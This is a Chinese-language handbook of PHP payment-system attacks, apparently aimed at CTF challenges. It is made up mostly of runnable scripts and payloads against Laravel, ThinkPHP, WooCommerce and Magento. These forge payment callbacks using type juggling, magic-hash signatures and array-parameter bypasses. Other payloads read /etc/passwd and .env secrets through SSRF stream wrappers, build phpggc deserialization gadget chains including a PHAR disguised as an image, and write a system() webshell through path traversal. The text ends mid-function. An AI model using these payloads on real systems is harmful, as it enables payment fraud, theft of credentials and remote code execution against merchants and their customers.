

# PHP Payment Attacks — PHP 支付专项攻击手册

> PHP 是全球支付类 Web 应用最广泛的后端语言，也是 CTF 支付题的绝对主力。其独特的类型系统、框架生态、历史遗留问题构成了丰富的攻击面。

## 0. PHP 支付攻击面全景

```
PHP 支付应用栈:
┌────────────────────────────────────────────┐
│  前端: Vue/React/jQuery + Blade/Twig       │
├────────────────────────────────────────────┤
│  框架: Laravel / Symfony / ThinkPHP / Yii  │
│  支付: Cashier / Omnipay / Yansongda       │
│  ORM:  Eloquent / Doctrine                 │
├────────────────────────────────────────────┤
│  PHP 运行时: 7.x / 8.x                     │
│  Web Server: Nginx/Apache + php-fpm        │
├────────────────────────────────────────────┤
│  数据库: MySQL / PostgreSQL / Redis        │
└────────────────────────────────────────────┘

PHP 独特攻击面:
  ▪ Type Juggling (== vs ===)
  ▪ Loose Function Returns (strcmp/md5/sha1 对数组返回 null)
  ▪ PHAR Deserialization
  ▪ Stream Wrapper (php://input)
  ▪ parse_url / parse_str 解析差异
  ▪ Session 机制
  ▪ extract() / $$ 变量覆盖
  ▪ 框架 Mass Assignment
  ▪ Composer 依赖链
```

## 1. PHP Type Juggling — 支付绕过核心

### 1.1 == 比较全矩阵

```php
<?php
// PHP 的 == 比较是最致命的支付漏洞来源
// 以下是支付场景中的实际利用

// === 0 == "任意非数字字符串" ===
var_dump(0 == "paid");        // bool(true)  ← 订单状态检查绕过
var_dump(0 == "success");     // bool(true)
var_dump(0 == "admin");       // bool(true)
var_dump(0 == "any_string");  // bool(true)

// === "0e..." Magic Hashes ===
// 任何以 "0e" 开头后跟纯数字的字符串都被当作 0eX = 0 × 10^X = 0
var_dump("0e462097431907509062922748828256" == "0e848240448830537924465865611904"); // true
var_dump("0e123456" == "0e789012");  // true
var_dump("0e0" == "0e999");          // true

// === null == 0 == "" == false ===
var_dump(null == 0);     // true
var_dump(null == "");    // true
var_dump(null == false); // true
var_dump(0 == false);    // true
var_dump("" == false);   // true
var_dump("0" == false);  // true

// === 数组比较 ===
var_dump(array() == false);  // true (PHP 5.x)
var_dump(array() == 0);      // true (PHP < 8.0)
var_dump(array() == null);   // true
// → 传 amount[]=0 可能绕过非空检查但值为 0
```

### 1.2 支付场景实战

```python
# php_type_juggling_payment.py
import requests

BASE = "https://target"
S = requests.Session()

# ============ 场景 1: 金额比较绕过 ============
# 后端代码: if ($order->amount == $callback->amount)
# 如果 $order->amount = 100, $callback->amount = "100abc"
# → "100abc" == 100 → true!
AMOUNT_JUGGLE = [
    0, 0.0, "0", "0.00", "0.0",
    "0abc",           # 0 == "0abc" → true
    "0e1",            # 0e1 = 0
    "0x0",            # hex 0
    "0b0",            # bin 0
    "0000",           # octal? → 0
    None,             # null == 0 → true
    False,            # false == 0 → true
    "",               # "" == 0 → true (PHP < 8.0)
    [],               # [] == 0 → true (PHP < 8.0)
    [0],              # [0] == 0 → false but 绕过 empty($amount)
]

for amount in AMOUNT_JUGGLE:
    r = S.post(BASE + "/api/payment/notify", json={
        "order_id": "TARGET_ORDER",
        "amount": amount,
        "trade_status": "TRADE_SUCCESS",
    })
    if r.status_code == 200 and "fail" not in r.text.lower():
        print(f"[!] AMOUNT JUGGLE: {repr(amount)} → 200 OK")

# ============ 场景 2: 签名 Magic Hash 绕过 ============
# 后端: if ($_POST['sign'] == $calculated_sign)
# 如果 $calculated_sign 恰好以 "0e" 开头+全数字 → 永远 true
# 以下真实 MD5 值在 == 比较下相等:
MAGIC_HASHES_FULL = {
    # MD5 magic hashes (来自真实碰撞研究)
    "240610708":   "0e462097431907509062922748828256",
    "QNKCDZO":     "0e830400451993494058024219903391",
    "aabg7XSs":    "0e087386482136013740957780965295",
    "aabC9RqS":    "0e041022518165728065344349536299",
    "s878926199a": "0e545993274517709034328855841020",
    "s155964671a": "0e342768416822451524974117254469",
    "s214587387a": "0e848240448830537924465865611904",
    "s1091221200a":"0e940624217856561557816327384675",
    # SHA1 magic hashes
    "aaroZmOk":    "0e66507019969427134894567494305185566735",
    "aaK1STfY":    "0e76658526655756207688271159624026011393",
    "aaO8zKZF":    "0e89257456677279068558073954252716165668",
}

# 攻击: 任意 sign 用 magic hash
for label, magic in MAGIC_HASHES_FULL.items():
    r = S.post(BASE + "/notify", data={
        "out_trade_no": "ORDER_ID",
        "trade_status": "TRADE_SUCCESS",
        "total_amount": "0.01",
        "sign": magic,
    })
    if r.status_code == 200:
        print(f"[!] Magic Hash: {label} → {magic[:20]}... → OK")
        break  # 任意一个命中即可

# ============ 场景 3: in_array() 越权 ============
# 后端: if (in_array($user->role, ['paid_user', 'admin']))
# 如果 $user->role 被强制为 int(0):
# → in_array(0, ['paid_user', 'admin']) → true!
ROLE_JUGGLE = [0, 0.0, False, null, "", "0"]
for role in ROLE_JUGGLE:
    r = S.post(BASE + "/api/payment/verify", json={
        "order_id": "TARGET", "role": role
    })
    if r.status_code == 200:
        print(f"[!] in_array bypass: role={repr(role)}")

# ============ 场景 4: switch/case ===
# PHP switch 使用 == 比较:
# switch ($status) {
#     case "paid": deliver(); break;
# }
# switch(0) 或 switch("0abc") 都可能匹配 case "paid"
```

### 1.3 PHP 8.x 变化与绕过

```python
# PHP 8.0 修复了一些 type juggling:
# - string-to-number comparison 仍然存在
# - "abc" == 0 现在为 false (终于修了!)
# - 但 "123abc" == 123 仍然为 true!
#
# PHP 8.1+ 新绕过思路:
# - Enum 比较: enum 实例可以与 string 比较?
# - Fibers: 异步竞态
# - readonly 属性: 不可变但可以 unserialize 绕过

PHP8_JUGGLE = {
    # PHP 8.0+ 仍然有效的绕过
    "still_works": [
        ("0" == false),      # true
        ("0.0" == 0),        # true
        ("0e123" == "0e456"),# true
        ([] == false),       # true
        (null == 0),         # true
    ],
    # PHP 8.0 新特性攻击面
    "new_attack_surface": [
        "match() 表达式 (严格比较，比 switch 安全)",
        "named arguments → 参数注入?",
        "constructor promotion → 自动属性赋值",
        "nullsafe operator → ?-> 可能掩盖 null 错误",
    ]
}
```

## 2. PHP 函数级攻击

### 2.1 支付相关危险函数

```python
# =========== strcmp / strcasecmp 数组绕过 ===========
# strcmp([], "any_string") → NULL
# NULL == 0 → true
# 攻击: 传 sign[]=anything 绕过 strcmp
def strcmp_bypass():
    """strcmp 数组参数绕过"""
    # POST sign[]=anything
    # PHP: strcmp($_POST['sign'], $correct_sign) → NULL
    # if (strcmp($sign, $correct) == 0) → NULL == 0 → true ✓

    # GET 方式: sign[]=x
    r = S.get(BASE + "/pay/return", params={
        "order_id": "ORDER",
        "sign[]": "anything",  # ← 数组参数
        "status": "success",
    })
    # POST 方式
    r = S.post(BASE + "/notify", data="sign[]=anything&order_id=X&status=success",
               headers={"Content-Type": "application/x-www-form-urlencoded"})

# =========== sha1 / md5 数组绕过 ===========
# sha1([]) → NULL, md5([]) → NULL
# 如果签名是 sha1($data) 且 $data 是数组:
def hash_array_bypass():
    # POST body: data[]=xxx
    # PHP: sha1($_POST['data']) → NULL
    # if (sha1($_POST) == $expected_hash) → NULL == "abc123" → false
    # 但如果是 !== 或 === → 绕过!

    # 两个数组: sha1([]) === sha1([]) → NULL === NULL → true!
    r = S.post(BASE + "/api/verify", data={
        "data1[]": "x",
        "data2[]": "y",
    })

# =========== extract() 变量覆盖 ===========
# extract($_POST) 是经典的 PHP 后门级漏洞
# POST: status=paid&amount=0
# → $status = "paid", $amount = 0 直接覆盖
def extract_bypass():
    # 如果支付回调处理用了 extract():
    # extract($_POST);
    # if ($trade_status == "TRADE_SUCCESS") { ... }
    # → POST trade_status=TRADE_SUCCESS → 直接覆盖

    EXTRACT_PAYLOADS = [
        {"trade_status": "TRADE_SUCCESS", "total_amount": "0.01"},
        {"status": "paid", "amount": 0},
        {"is_paid": True, "paid_at": "now"},
        {"admin": True, "verified": True},
        # 覆盖上游变量
        {"_POST": {"trade_status": "TRADE_SUCCESS"}},
        {"GLOBALS": {"is_admin": True}},  # register_globals 遗毒
    ]

# =========== parse_str() 覆盖 ===========
# parse_str("key=value", $output) → $output['key'] = 'value'
# parse_str("key=value") → $key = 'value' (无第二参数时直接创建变量!)
# 无第二参数的 parse_str() = extract() 等价
```

### 2.2 parse_url / filter_var 绕过

```python
# PHP parse_url() 解析怪癖:
def php_parse_url_bypass():
    """利用 PHP URL 解析差异"""

    # parse_url("http://evil.com#@legit.com") → host = "evil.com"
    # 但 curl 可能连接到 legit.com

    # parse_url("http://evil.com\@legit.com") → host = "evil.com"
    # PHP bug: backslash 在某些版本被当作分隔符

    # filter_var($url, FILTER_VALIDATE_URL) 绕过:
    FILTER_VAR_BYPASS = [
        "http://evil.com?@legit.com/path",       # ? 被当作 credentials
        "http://evil.com#@legit.com/path",        # fragment 混淆
        "http://evil.com\\@legit.com/path",       # backslash
        "http://evil.com:80@legit.com/path",      # evil.com:80@legit → auth
        "0://evil.com:80;legit.com:80/path",      # multi-host (PHP bug)
        "javascript://legit.com%0aalert(1)",      # JS protocol
    ]

    for url in FILTER_VAR_BYPASS:
        r = S.post(BASE + "/api/order/create", json={
            "notify_url": url,
        })
        print(f"notify_url={url:50s} → {r.status_code}")

# =========== PHP SSRF 特有 ===========
# PHP stream wrappers:
PHP_SSRF_PAYLOADS = [
    "file:///etc/passwd",
    "php://filter/convert.base64-encode/resource=/var/www/html/config.php",
    "php://filter/convert.base64-encode/resource=/var/www/html/.env",
    "gopher://127.0.0.1:3306/_",           # MySQL
    "gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a",  # Redis
    "dict://127.0.0.1:6379/info",           # Redis info
]
```

## 3. Laravel 支付系统攻击

### 3.1 Laravel Cashier (Stripe) 攻击

```python
# Laravel Cashier 是全球最流行的 PHP 支付包
# 核心攻击面:

def laravel_cashier_attacks():
    """Laravel Cashier 攻击矩阵"""
    attacks = {
        # ===== 1. Webhook 控制器 =====
        "webhook_controller": {
            "path": "/stripe/webhook",
            "default_route": "Route::post('stripe/webhook', 'WebhookController@handleWebhook')",
            "bypass": "Cashier 默认不验证 CSRF (VerifyCsrfToken middleware except)",
            "attack": "伪造 webhook → 可能不需要签名验证?",
            "check": "Cashier::webhook() 中间件是否存在"
        },

        # ===== 2. 订阅中间件 =====
        "subscription_middleware": {
            "code": "if ($request->user() && !$request->user()->subscribed()) { abort(403); }",
            "bypass": "如果 subscribed() 检查可以被操纵: is_subscribed=true in user table",
        },

        # ===== 3. Mass Assignment (Eloquent) =====
        "mass_assignment": {
            "code": '$user->update($request->all());',
            "exploit": 'POST /api/user/update → {"is_admin":true, "stripe_id":"cus_OTHER"}',
            "risk": "绑定他人的 stripe_id → 用他人信用卡"
        },

        # ===== 4. Billable trait =====
        "billable_trait": {
            "methods": [
                "charge(amount, method)",      # 直接扣款
                "invoice()",                   # 生成发票
                "refund(charge_id)",           # 退款
                "subscription('plan')",        # 创建订阅
                "swap('plan')",               # 切换计划
            ],
            "IDOR": "User A 调用 charge() 扣 User B 的钱 → stripe_id 被替换"
        },

        # ===== 5. Laravel 调试模式 =====
        "debug_mode": {
            "path": "/_ignition/health-check",
            "exploit": "APP_DEBUG=true → Ignition RCE (CVE-2021-3129)",
            "payment_impact": "通过 RCE 读 .env → STRIPE_KEY/STRIPE_SECRET → 构造合法回调"
        },
    }
```

### 3.2 Laravel 路由与中间件

```python
# Laravel 支付路由探测
LARAVEL_PAYMENT_ROUTES = [
    # Cashier 标准路由
    "/stripe/webhook",
    "/stripe/portal",
    "/stripe/success",
    "/stripe/cancel",

    # Billing Portal
    "/billing",
    "/billing/portal",
    "/user/invoices",
    "/user/subscriptions",

    # API 路由
    "/api/checkout",
    "/api/payment-intent",
    "/api/setup-intent",
    "/api/payment-method",
    "/api/subscription",
    "/api/invoices/{id}/download",

    # Laravel Paddle
    "/paddle/webhook",
    "/paddle/prices",
    "/paddle/transaction",

    # Debug
    "/_debugbar/open",
    "/telescope",
    "/horizon",
    "/log-viewer",
]
```

### 3.3 Laravel 支付事件/监听器

```php
<?php
// Laravel Cashier 事件系统:
// Event → Listener 链中的攻击面

// Event 列表:
// Laravel\Cashier\Events\WebhookReceived
// Laravel\Cashier\Events\WebhookHandled
// Laravel\Cashier\Events\SubscriptionCreated
// Laravel\Cashier\Events\SubscriptionUpdated
// Laravel\Cashier\Events\SubscriptionCancelled

// 攻击: 如果 Event Listener 可以被触发而不验证 Event 来源:
// → 直接 dispatch('Laravel\Cashier\Events\WebhookHandled', [$fakePayload])
// → 触发发货逻辑

// Laravel Queue Worker 攻击:
// 支付回调 → Job → Queue (Redis/DB) → Worker 处理
// 如果 Queue 使用 database driver:
// → SQL Injection → 直接插入 Job → Worker 执行
```

## 4. PHP 反序列化 — 支付对象注入

### 4.1 支付对象 Gadget Chain

```php
<?php
// PHP 反序列化在支付场景中的利用:
// 场景 1: 购物车存储在 cookie/session 中 (序列化)
// 场景 2: 订单对象缓存 (Redis serialize)
// 场景 3: 支付回调携带序列化数据

// ===== 典型漏洞代码 =====
// $cart = unserialize($_COOKIE['cart']);
// $order = unserialize(base64_decode($_GET['data']));

// ===== 支付对象 Gadget =====
class Cart {
    public $items = [];
    public $total = 0;
    public $discount = 0;
    public $coupon_code = '';

    // Gadget 利用点:
    // 1. __destruct() → 写文件/数据库 → 覆盖订单状态
    // 2. __wakeup() → 连接其他服务 → SSRF
    // 3. __toString() → 如果 Cart 被 echo → 触发
    // 4. __call() → 如果调用了不存在的方法
}

class PaymentCallback {
    public $order_id;
    public $status;
    public $callback_url;

    // __destruct() 中发 HTTP 请求 → SSRF
    public function __destruct() {
        file_get_contents($this->callback_url . '?order=' . $this->order_id);
    }
}

// PHAR 反序列化 (最隐蔽):
// file_exists('phar://malicious.phar') → 触发反序列化
// is_dir('phar://...') → 触发
// 利用点: 如果支付系统会检查上传文件的 MIME 或大小:
// → finfo_file(), filesize(), file_exists() 等都可以触发 PHAR
```

### 4.2 常见 PHP 支付包的 Gadget

```python
# PHP 支付相关包的已知和推测 Gadget:
PHP_PAYMENT_GADGETS = {
    # Omnipay (最流行的 PHP 支付网关抽象)
    "omnipay": {
        "classes": [
            "Omnipay\\Common\\Message\\AbstractRequest",
            "Omnipay\\Common\\Message\\AbstractResponse",
            "Omnipay\\Common\\ItemBag",
        ],
        "gadget_possible": "AbstractResponse → __destruct → trigger HTTP to gateway → SSRF"
    },

    # Yansongda (支付宝/微信 Laravel 包)
    "yansongda": {
        "classes": [
            "Yansongda\\Pay\\Pay",
            "Yansongda\\Pay\\Gateways\\Alipay",
            "Yansongda\\Supports\\Config",
        ],
    },

    # Laravel Cashier
    "cashier": {
        "classes": [
            "Laravel\\Cashier\\Subscription",
            "Laravel\\Cashier\\Invoice",
            "Laravel\\Cashier\\Payment",
        ],
    },

    # Guzzle (底层 HTTP 客户端)
    "guzzle": {
        "gadget": "GuzzleHttp\\Cookie\\SetCookie → __toString → file_get_contents → SSRF/RCE",
        "CVE": "CVE-2022-... (pending analysis)",
    },

    # Monolog (日志, 几乎所有 PHP 项目都用)
    "monolog": {
        "gadget": "Monolog\\Handler\\... → __destruct → 写文件 → webshell",
        "exploit": "phpggc Monolog/RCE1 system id",
    },
}
```

### 4.3 phpggc 实战

```bash
# phpggc — PHP Generic Gadget Chains
# 如果支付系统使用了以下任何一个包，就可以生成 gadget:

# 列出所有可用的 gadget
phpggc -l

# 常见组合:
phpggc Laravel/RCE1 system id                     # Laravel
phpggc Monolog/RCE1 system id                    # Monolog
phpggc Guzzle/RCE1 system id                     # Guzzle
phpggc SwiftMailer/FW1 system id                 # SwiftMailer
phpggg Symfony/RCE1 system id                    # Symfony
phpggc Doctrine/RCE1 system id                   # Doctrine

# 支付场景利用:
# 1. 购物车 Cookie: phpggc -b Laravel/RCE1 system 'cat /flag' | base64
# 2. 订单序列化字段: POST order_data=<phpggc output>
# 3. PHAR 上传: phpggc -p phar Laravel/RCE1 system id > evil.gif
#    → 上传 evil.gif → 触发 file_exists("phar://evil.gif")
```

## 5. PHP Session 攻击

### 5.1 Session 支付状态劫持

```python
# PHP session 存储支付状态是常见反模式:
# $_SESSION['order_status'] = 'pending';
# $_SESSION['cart'] = serialize($cart);

def php_session_attacks():
    """PHP Session 支付攻击"""
    attacks = {
        # ===== Session ID 固定 =====
        "session_fixation": {
            "flow": "获取自己的 PHPSESSID → "
                    "诱导受害者使用同一 PHPSESSID → "
                    "受害者支付 → 订单关联到攻击者 session → 发货给攻击者",
            "url": "https://target/pay?PHPSESSID=attacker_session_id",
        },

        # ===== Session 反序列化 =====
        "session_deserialize": {
            "attack": "如果 session.serialize_handler = php_serialize 但 PHP 期望 php:",
            "inject": '|'.join([
                'O:4:"Cart":2:{s:5:"items";a:0:{}s:5:"total";i:0;}',
                # 注入恶意序列化数据到 session 文件
            ]),
        },

        # ===== Session 文件包含 =====
        "session_lfi": {
            "flow": "PHPSESSID 可控制 → session 文件路径已知 "
                    "(/tmp/sess_XXXX) → LFI → 包含 session 文件 → RCE",
        },

        # ===== 跨应用 Session 共享 =====
        "cross_app_session": {
            "flow": "同一域名下多个应用: /app1 和 /app2 "
                    "如果 session 共享 → app1 的支付状态被 app2 读取",
        },
    }
```

### 5.2 Session Handler 攻击

```php
<?php
// Redis Session Handler:
// session.save_handler = redis
// session.save_path = "tcp://127.0.0.1:6379"
// 如果 Redis 未设密码 → 直接写 session

// 攻击:
// redis-cli SET "PHPREDIS_SESSION:attacker_session" "paid|s:4:\"paid\";"
// → 修改自己的 session 数据 → 订单变 paid

// 数据库 Session Handler:
// 如果 SQLi 可用:
// UPDATE sessions SET data='order_status|s:4:"paid";' WHERE session_id='attacker_session';
```

## 6. PHP 特定框架支付攻击

### 6.1 ThinkPHP 支付

```python
# ThinkPHP 是国内使用量极高的框架
THINKPHP_PAYMENT_ATTACKS = {
    # ThinkPHP 路由
    "routes": [
        "/index.php?s=index/think/pay",
        "/index.php?s=order/callback",
        "/index.php?s=payment/notify",
    ],

    # ThinkPHP 特有的参数绑定
    "param_binding": {
        "exploit": "ThinkPHP 自动将 URL 参数绑定到方法参数",
        "attack": "?amount=0&status=paid → 自动注入到控制器方法",
    },

    # ThinkPHP 模板
    "template": "ThinkPHP 的 think-template 可能有渲染差异",
}

# ===== ThinkPHP 支付模块常见漏洞 =====
def thinkphp_audit():
    # 1. 看看有没有 app/pay 或 app/payment 模块
    paths = [
        "/index.php?s=pay",
        "/index.php?s=payment",
        "/index.php?s=order",
        "/index.php?s=api/pay",
        "/index.php?s=api/notify",
        "/index.php?s=api/callback",
    ]
    # 2. TP 调试模式
    # ?s=index/think/app→ debug mode info leak
    # 3. TP 日志
    # /runtime/log/202401/01.log
```

### 6.2 WordPress + WooCommerce

```python
# WordPress 支付插件 (WooCommerce, Easy Digital Downloads, MemberPress)
WP_PAYMENT_ATTACKS = {
    "woocommerce": {
        "webhook": "/wp-json/wc/v3/webhooks",
        "order_api": "/wp-json/wc/v3/orders",
        "callback": "/wc-api/WC_Gateway_Paypal/",
        "ajax": "/wp-admin/admin-ajax.php?action=woocommerce_*",
        "rest_api": "/wp-json/wc/v3/",
        "common_plugins": [
            "woocommerce-gateway-stripe",
            "woocommerce-gateway-paypal",
            "woocommerce-subscriptions",
            "woocommerce-memberships",
        ],
        "nopriv_bypass": "某些 AJAX action 注册了 wp_ajax_nopriv_* → 未登录可调",
        "nonce_reuse": "WooCommerce nonce 有效期 24h → 可 CSRF"
    },

    "edd": {  # Easy Digital Downloads
        "callback": "/?edd-listener=IPN",
        "return": "/?edd_action=verify_purchase",
        "api": "/edd-api/v2/",
        "file_download": "/?edd_action=file_download&file=KEY&token=TOKEN",
    },

    "memberpress": {
        "webhook": "/wp-json/mp/v1/webhooks",
        "callback": "/?mepr-ipn=paypal",
    },
}
```

### 6.3 Magento / Adobe Commerce

```python
MAGENTO_PAYMENT_ATTACKS = {
    "graphql": "/graphql",  # Magento 2.3+ 有 GraphQL
    "rest": "/rest/V1/",
    "soap": "/soap/default?wsdl",
    "paypal_ipn": "/paypal/ipn/",
    "admin": "/admin/",  # 默认随机后缀

    "graphql_mutations": """
    mutation {
      createEmptyCart
      addSimpleProductsToCart(input: {
        cart_id: "CART_ID"
        cart_items: [{ sku: "PREMIUM_SKU", quantity: 1 }]
      })
      setPaymentMethodOnCart(input: {
        cart_id: "CART_ID"
        payment_method: { code: "free" }    # ← 免费支付方式
      })
      placeOrder(input: { cart_id: "CART_ID" })
    }
    """,
}
```

## 7. PHP 浮点数 / 精度支付漏洞

### 7.1 PHP float vs bcmath

```php
<?php
// PHP 金融计算的经典陷阱:

// === 永远不要用 float 算钱 ===
$total = 0.1 + 0.2;           // 0.30000000000000004
var_dump($total == 0.3);      // false!

// 支付系统中的实际后果:
$amount = 69.99;
$paid = 69.99;
var_dump($amount == $paid);   // 可能 false!
// → 订单永远不会被标记为 paid

// === bcmath / MoneyPHP ===
// 正规做法:
$amount = bcmul("69.99", "1", 2);   // "69.99"
$paid = "69.99";
var_dump($amount === $paid);  // true

// 但如果有人用了 float:
$user_input = 0.000000001;
$amount = (float) $user_input;
// → 可能 < 0.01 但被视为有效支付

// === number_format() 陷阱 ===
echo number_format(0.005, 2);  // "0.01" or "0.00"?
// PHP 的 number_format 使用 round half up → "0.01"
// 但数据库的 ROUND(0.005, 2) → 因数据库而异
```

### 7.2 PHP intval 绕过

```python
# PHP intval() 在支付中的应用:
# intval("0x64") → 0 (不转换十六进制!)
# intval("0123") → 0 (PHP 7+, 不再识别八进制)
# intval("abc") → 0
# intval("1e5") → 1 (只取第一个数字!)

def php_intval_attacks():
    """PHP intval/floatval 绕过"""
    payloads = [
        # intval() → 0
        "0e123",        # intval → 0 (科学计数)
        "abc",          # intval → 0
        "0x64",         # intval → 0
        "NULL",         # intval → 0
        "",             # intval → 0

        # floatval() → 0.0
        "NaN",
        "Infinity",
        "abc",
        "",

        # is_numeric() 绕过
        # is_numeric("0x64") → false (PHP 7.4+)
        # is_numeric("+0123.45e6") → true (接受科学计数!)
        "+0.0",         # is_numeric → true
        "0e0",          # is_numeric → true, (int) → 0
        "0e12345",      # is_numeric → true, (int) → 0 ← 支付金额被当成 0
    ]
```

## 8. PHP 文件操作在支付中的利用

### 8.1 支付日志/凭证文件

```php
<?php
// 常见漏洞: 支付回调写入文件
// file_put_contents("/tmp/payments.log", json_encode($_POST) . "\n", FILE_APPEND);
// file_put_contents("/var/www/uploads/" . $order_id . "_proof.png", $file_content);

// 攻击:
// 1. order_id = "../../../var/www/html/evil.php"
// → 写入 webshell: /var/www/html/evil.php_proof.png → 不可执行 → 但可以写 .php
// 2. 写入日志 → 包含日志文件 → RCE
// 3. 写入 .htaccess → 覆盖 Apache 配置

def php_file_attacks_in_payment():
    attacks = [
        {
            "name": "Path Traversal in order_id",
            "payload": {"order_id": "../../../public/evil", "file_content": "<?php system($_GET['c']);?>"}
        },
        {
            "name": "Null byte 截断 (PHP < 5.3)",
            "payload": {"order_id": "evil.php%00.png"}
        },
        {
            "name": "PHP wrapper 写文件",
            "payload": {"order_id": "php://filter/write=convert.base64-decode/resource=evil.php",
                        "file_content": "PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pOz8+"}
        },
        {
            "name": "竞争条件: 上传+执行",
            "flow": "上传 webshell → 在被删除前访问 → RCE"
        },
    ]
```

### 8.2 支付配置文件读取

```bash
# PHP 支付项目常见的敏感文件:
# /.env → DB_PASSWORD, STRIPE_KEY, STRIPE_SECRET, APP_KEY
# /config/payment.php → 支付配置
# /config/services.php → 第三方服务配置
# /storage/logs/laravel.log → 可能包含支付回调 payload
# /.git/config → 仓库信息
# /composer.json → 依赖版本 (进而查 CVE)
# /vendor/composer/installed.json → 完整依赖列表
```

## 9. 综合 PHP 支付审计脚本

```python
# php_payment_audit.py — PHP 支付系统全面审计
import requests, hashlib, time, concurrent.futures
from urllib.parse import urlparse

class PHPPaymentAuditor:
    def __init__(self, base_url):
        self.base = base_url
        self.s = requests.Session()

    def full_audit(self):
        """跑全部 PHP 专项检测"""
        self.check_php_fingerprint()
        self.check_type_juggling()
        self.check_strcmp_md5_sha1()
        self.check_extract_register_globals()
        self.check_session_fixation()
        self.check_laravel_routes()
        self.check_thinkphp_routes()
        self.check_woocommerce()
        self.check_phpinfo_debug()
        self.check_env_leak()
        self.check_phar_upload()
        self.check_magic_hashes()
        self.check_parse_str()
        self.check_xml_callback()

    def check_php_fingerprint(self):
        """PHP 指纹识别"""
        probes = {
            "X-Powered-By": ["PHP/", "php"],
            "Set-Cookie": ["PHPSESSID="],
            "Server": ["Apache/", "nginx"],
        }
        r = self.s.get(self.base + "/")
        for header, patterns in probes.items():
            val = r.headers.get(header, "")
            for p in patterns:
                if p in val:
                    print(f"[PHP] {header}: {val}")

        # 常见 PHP 路径
        php_paths = [
            "/index.php", "/api/index.php", "/admin/index.php",
        ]
        for p in php_paths:
            r = self.s.get(self.base + p, allow_redirects=False)
            if r.status_code == 200:
                print(f"[PHP] Exists: {p}")

    def check_type_juggling(self):
        """PHP Type Juggling 支付绕过"""
        # 金额 0 绕过
        for amount, amount_type in [
            (0, "int"), (0.0, "float"), ("0", "str"),
            ("0.00", "str"), ("0e1", "sci"), ("0abc", "str_num"),
        ]:
            r = self.s.post(self.base + "/api/order/create", json={
                "product_id": 1, "amount": amount
            })
            if r.status_code == 200:
                data = r.json() if r.headers.get("content-type","").startswith("application/json") else {}
                final_amount = data.get("amount", data.get("data", {}).get("amount"))
                print(f"[TypeJuggle] amount={repr(amount):10s} → final_amount={final_amount}")

        # Magic Hash
        for magic in ["0e462097431907509062922748828256", "0e848240448830537924465865611904"]:
            r = self.s.post(self.base + "/notify", data={
                "order_id": "TEST", "trade_status": "TRADE_SUCCESS",
                "total_amount": "100", "sign": magic,
            })
            if r.status_code == 200 and "fail" not in r.text.lower():
                print(f"[TypeJuggle] Magic hash bypass: {magic[:20]}...")

    def check_strcmp_md5_sha1(self):
        """strcmp/md5/sha1 数组绕过"""
        # strcmp 绕过
        r = self.s.get(self.base + "/notify", params={
            "order_id": "TEST", "sign[]": "anything",
            "trade_status": "TRADE_SUCCESS",
        })
        if r.status_code == 200:
            print(f"[strcmp] Array bypass via GET: {r.status_code}")

        # POST 版
        r = self.s.post(self.base + "/notify",
            data="sign[]=a&order_id=TEST&trade_status=TRADE_SUCCESS",
            headers={"Content-Type": "application/x-www-form-urlencoded"})

        # md5/sha1 绕过
        for field in ["data", "sign_data", "payload"]:
            r = self.s.post(self.base + "/notify", json={
                "order_id": "TEST",
                "trade_status": "TRADE_SUCCESS",
                field: ["injected"],   # ← 数组
                "sign": "",
            })
            if r.status_code == 200:
                print(f"[md5/sha1] Array bypass on field={field}")

    def check_extract_register_globals(self):
        """变量覆盖探测"""
        # 尝试覆盖支付状态
        overwrites = [
            {"status": "paid"},
            {"is_paid": True},
            {"paid": "1"},
            {"payment_status": "success"},
            {"trade_status": "TRADE_SUCCESS"},
            {"verified": True},
            {"admin": "1"},
            {"GLOBALS[admin]": "1"},
        ]
        for data in overwrites:
            r = self.s.post(self.base + "/notify", data=data)
            if r.status_code == 200:
                print(f"[Extract] Variable overwrite: {data} → {r.status_code}")

    def check_session_fixation(self):
        """Session 固定"""
        # 如果 URL 中有 PHPSESSID
        for path in ["/pay", "/checkout", "/order"]:
            r = self.s.get(self.base + path, params={
                "PHPSESSID": "ATTACKER_FIXED_SESSION"
            }, allow_redirects=False)
            # 检查重定向后是否带了 session
            loc = r.headers.get("Location", "")
            if "PHPSESSID" in loc or r.cookies.get("PHPSESSID") == "ATTACKER_FIXED_SESSION":
                print(f"[Session] Fixation possible at {path}")

    def check_laravel_routes(self):
        """Laravel 专属路由"""
        for path in [
            "/stripe/webhook", "/stripe/portal",
            "/paddle/webhook",
            "/billing/portal",
            "/_ignition/health-check",    # Ignition debug
            "/telescope/requests",        # Laravel Telescope
            "/horizon/dashboard",         # Laravel Horizon
            "/.env", "/.env.example", "/.env.backup",
        ]:
            r = self.s.get(self.base + path, allow_redirects=False, timeout=5)
            if r.status_code != 404:
                print(f"[Laravel] {path} → {r.status_code}")

    def check_thinkphp_routes(self):
        """ThinkPHP 专属"""
        for path in [
            "/index.php?s=pay",
            "/index.php?s=index/pay",
            "/index.php?s=index/think/app",
            "/index.php?s=admin/Payment/callback",
        ]:
            r = self.s.get(self.base + path, allow_redirects=False)
            if r.status_code != 404:
                print(f"[ThinkPHP] {path} → {r.status_code}")

    def check_woocommerce(self):
        """WooCommerce / WordPress"""
        for path in [
            "/wp-content/plugins/woocommerce/",
            "/wp-json/wc/v3/",
            "/wp-json/wc/v3/orders",
            "/wc-api/WC_Gateway_Paypal/",
            "/wp-admin/admin-ajax.php",
            "/wp-login.php",
            "/wp-json/wp/v2/users",
        ]:
            r = self.s.get(self.base + path, allow_redirects=False, timeout=5)
            if r.status_code != 404:
                print(f"[WP/Woo] {path} → {r.status_code}")

    def check_phpinfo_debug(self):
        """调试信息泄露"""
        for path in [
            "/phpinfo.php", "/info.php", "/php_info.php",
            "/test.php", "/debug.php", "/dev.php",
            "/api/debug", "/api/test",
        ]:
            r = self.s.get(self.base + path, allow_redirects=False)
            if r.status_code == 200 and "phpinfo" in r.text.lower():
                print(f"[!] phpinfo exposed: {path}")
            elif r.status_code == 200:
                print(f"[Debug] {path} → {r.status_code}")

    def check_env_leak(self):
        """环境变量/配置泄露"""
        for path in [
